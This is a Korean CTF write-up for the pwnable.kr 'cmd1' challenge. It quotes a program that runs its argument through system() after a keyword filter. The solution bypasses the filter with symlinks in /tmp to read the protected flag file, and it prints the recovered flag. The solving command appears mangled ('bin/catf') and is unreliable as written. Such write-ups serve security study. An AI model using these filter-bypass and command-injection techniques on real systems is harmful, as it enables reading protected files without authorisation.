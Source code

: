 ```yaml
---
title: Pwnable KR - cmd1
date: 2016-04-25 16:36:00 +0900 KST
categories: [write-up]
---
```


## 문제

![Pwnable KR cmd1](pwnable-kr-cmd1.png)

cmd1.c 파일 내용은 아래와 같다.
argv[1]에 flag나 sh나 tmp가 들어가면 안되는 듯.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

## 풀이

export 명령어로 환경변수를 하나 지정해서 넣어주면 된다.
난 처음에 환경변수를 생각 못해서 좀 괴상하게 풀었다.

tmp를 못쓰면 tmp에서 하면 되지!! 해서 이렇게

```console
$ mkdir /tmp/cmd1k
$ ln -s /home/cmd1/cmd1 /tmp/cmd1k/cmd1
$ ln -s /home/cmd1/flag /tmp/cmd1k/f
$ cd /tmp/cmd1k
$ ./cmd1 'bin/catf'
mommy now I get what PATH environment is for :)
$
```

mommy now I get what PATH environment is for :)

환경변수 출력을 어떻게 해야하는지 까먹었는데 이번 기회에 다시 알게되서 참 좋다.
1점 문제만 있으면 좋겠다.
